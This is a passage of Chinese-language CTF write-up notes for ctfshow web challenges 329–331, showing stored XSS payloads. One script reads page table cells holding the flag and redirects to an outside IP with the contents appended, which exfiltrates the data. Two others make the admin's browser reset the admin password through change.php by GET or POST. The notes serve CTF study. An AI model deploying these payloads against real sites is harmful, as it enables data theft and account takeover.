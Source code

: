然鹅发现一得到 COOKIE 便失效了

## web329

-存储型-失效凭据需1步完成所需操作，所以换一个思路获取页面元素

```
<script>
$('.laytable-cell-1-0-1').each(function(index,value){
    if(value.innerHTML.indexOf('ctf'+'show')>-1){
        window.location.href='http://43.142.255.132/'+value.innerHTML; 
    }
});
</script>
```

## web330

借助修改密码重置管理员密码(GET)

注册用户名为

```
<script>window.location.href='http://127.0.0.1/api/change.php?p=123';</script>
```

```
http://127.0.0.1/api/change.php?p=123 //为修改密码的链接，admin触发这个时便修改了自己的密码
```

再用 admin:123 登录即可看到密码

<img src="图片\Snipaste_2023-02-02_21-42-43.png" alt="Snipaste_2023-02-02_21-42-43" style="zoom:80%;" />

## web331

存储型-借助修改密码重置管理员密码(POST)

```
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'123'}});</script>
```

思路与楼上一样，提交方式改为 POST
